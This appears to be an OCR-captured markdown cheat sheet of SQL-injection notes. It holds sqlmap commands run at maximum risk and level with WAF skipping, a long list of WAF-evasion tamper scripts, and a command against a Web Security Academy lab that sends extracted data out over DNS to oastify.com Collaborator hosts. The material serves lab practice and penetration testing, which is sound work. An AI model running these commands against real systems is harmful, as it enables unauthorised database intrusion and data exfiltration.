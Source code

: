 # SQLI

Make sure SQLMAP DNS Collaborator extension is still installed (testing)

* Cryptocat recommends to avoid using `-r`option and to just use CLI

```bash
sudo sqlmap --skip-waf --risk 3 --level 3 -r request.item -o --batch --dns-domain=laz3k1ymu2kc0idl9tumx345nwtnhf54.oastify.com
```

Tamper scripts general (Jhaddix)

```
tamper=apostrophemask,apostrophenullencode,base64encode,between,chardoubleencode,charencode,charunicodeencode,equaltolike,greatest,ifnull2ifisnull,multiplespaces,nonrecursivereplacement,percentage,randomcase,securesphere,space2comment,space2plus,space2randomblank,unionalltounion,unmagicquotes
```

```
sqlmap --list-tampers 
```

```bash
# Hex Entity encoded XML Post for lab
sudo sqlmap --skip-waf --dns-domain=izlubtqohy2z2888mo48gfhcv31upkd9.oastify.com  --level 5 --risk 3 -o -u https://0acf0086046a3c558189d41400ba001d.web-security-academy.net/product/stock --cookie "session=Q3sPhj537HOewWIqNvbF7uz9B8VMoaYI" --data '<?xml version="1.0" encoding="UTF-8"?><stockCheck><productId>1</productId><storeId>1*</storeId></stockCheck>' --tamper=hexentities --batch
```
